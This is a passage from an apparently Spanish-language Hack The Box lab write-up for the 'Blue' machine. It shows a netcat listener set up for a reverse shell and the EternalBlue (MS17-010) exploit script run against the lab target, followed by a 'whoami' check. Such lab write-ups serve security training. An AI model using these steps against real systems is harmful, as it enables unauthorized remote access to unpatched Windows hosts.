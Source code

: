 

Ahora procedemos a lanzar el scrript ms17_010_eternalblue.py, pero antes de lanzarlo nos ponemos en escucha con netcat

```bash
rlwrap nc -nlvp 443
```

Ahora lanzamos el script para explotar la vulnerabilidad eternal blue

```bash
python3 ms17_010_eternalblue.py 10.10.10.40 exploit.bin
```

Si no funciona a la primera volver a intentar hasta que nos entable la conexión, y listo ya tendríamos acceso a la maquina victima.

![acceso a la maquina.png](/assets/images/htb-writeup-blue/acceso_a_la_maquina.png)

Una vez con acceso a la maquina verificamos que tipo de usuario somos

```powershell
whoami
```
